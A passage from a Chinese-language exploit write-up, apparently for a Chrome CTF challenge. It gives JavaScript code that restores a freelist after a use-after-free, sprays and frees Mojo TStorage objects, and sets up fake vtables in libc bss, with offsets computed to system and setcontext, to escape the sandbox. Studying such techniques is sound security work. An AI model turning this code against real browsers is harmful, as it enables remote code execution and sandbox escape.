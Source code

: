 当改写mojo标志后，需要重新加载页面才能生效。为了保持freelist不崩溃，我们把freelist还原为原始的数值
```
console.log("go reload!!!");
freelist[0] = page_leak;
leaks[0] = (0n).i2f()
uaf.set(leaks,0);   
window.location.reload();
```
### Sandbox
先准备若干objects
```
var spray_inst = [];

for(var i = 0; i < 3000; i++){


        var x = new blink.mojom.TStoragePtr();
        Mojo.bindInterface(blink.mojom.TStorage.name,  mojo.makeRequest(x).handle);

        await x.init();
        var z = (await x.createInstance()).instance;

        spray_inst.push({"stor":x,"inst":z});
}
```
而后释放spray_inst 中的指针
```
for(var i =0; i < 3000; i++){
        if((i % 300 )== 0){continue;}
        await spray_inst[i]["stor"].ptr.reset();

}
```
堆喷的实现https://theori.io/research/escaping-chrome-sandbox/

批量申请0x700的堆块，写入构造好的对象结构
- vtable ptr points to our controlled memory
- inlined properties used for GetDouble & GetInt are filled with marker objects. We can read from them in order too understand if the memory was reclaimed successfully or not.
- queue that is used for push/pop operations points to global section in libc. There we will write fake vtable

即把pop/push的指针指向预设的bss地址，这样当我们通过push/pop方法时就能改写bss地址内容。  
改写vtable地址为我们预设的bss地址，bss内容可控
修改double和int的属性值为预设的marker值，这样通过遍历spray_inst中对象的`GetDouble`和`GetInt`结果，如果发现和marker的值相同，说明已经分配到了被控的对象，通过push/pop改写bss内容为目标执行函数，再执行vtable函数即可。
```let allocate = getAllocationConstructor();

////////////////////////////


var atoi_addr = (await spray_inst[0]["stor"].getLibcAddress()).addr // provided leak
libc_base = atoi_addr - 0x40680;
libc_bss_addr = libc_base + 0x3eb000
system_ptr        = libc_base + 0x4f440;
setcontext        = libc_base + 0x520c7

console.log("libc base  @ "+hex(libc_base))
console.log("bss        @ "+hex(libc_bss_addr))
console.log("system_ptr @ "+hex(system_ptr))


let alloc_count = 0x1000;

let data = new ArrayBuffer(0x700); // spray size
```